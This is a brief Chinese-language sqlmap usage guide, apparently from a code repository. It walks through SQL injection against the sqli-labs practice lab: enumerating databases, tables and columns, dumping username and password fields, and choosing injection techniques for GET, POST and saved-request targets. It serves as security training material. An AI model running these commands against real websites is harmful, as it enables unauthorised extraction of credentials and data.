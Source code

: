 ## sqlmap使用指南

查找数据库

`python sqlmap.py -u "http://localhost/sqli-labs/Less-8/?id=1" --dbs --batch --threads 10`

> -u "访问网址，需带参数"
>
> --dbs 查找数据库
>
> --batch 默认选项
>
> --threads 线程

获取数据库中的表
`python sqlmap.py -u "http://localhost/sqli-labs/Less-8/?id=1" -D security --tables --batch --threads 10`
获取表中的字段名 
`python sqlmap.py -u "http://localhost/sqli-labs/Less-8/?id=1" -D security -T users --columns --batch --threads 10`
获取字段信息 
`python sqlmap.py -u "http://localhost/sqli-labs/Less-8/?id=1" -D security -T users -C username,password --dump --batch --threads 10`

> --technique=     （默认全部使用）
>
> * B       基于布尔的盲注
> * T       基于时间的盲注
> * E      基于报错的注入
> * U      基于UNION查询注入
> * S      基于多语句查询注入
>
> --dump                         存储DBMS数据库的表中的条目
>
> --dump-all                     存储DBMS所有数据库表中的条目
>
> --D db                          指定进行枚举的数据库名称
>
> --T   table                     指定进行枚举的数据库表名称
>
> --C   column                 指定进行枚举的数据库列名称

1.GET参数注入

`sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"`

2.POST参数注入

body

1. `参数1=value1&参数2=value2`

`sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1"  --data="id=1"`

2. ~~~HTTP
   -c7eb38bf-7ea1-4fbc-836a-47ceafdfd30a
   Content-Disposition: form-data; name="page”
   Content-Length: 1
   1
   -c7eb38bf-7ea1-4fbc-836a-47ceafdfd30a
   Content-Disposition: form-data; name="search”
   Content-Length: 1
   qqqqq
   -c7eb38bf-7ea1-4fbc-836a-47ceafdfd30a-
   ~~~

`sqlmap -r "d://postrequest.txt"`



参考

[sqlmap详细使用教程](https://blog.csdn.net/smli_ng/article/details/106026901)
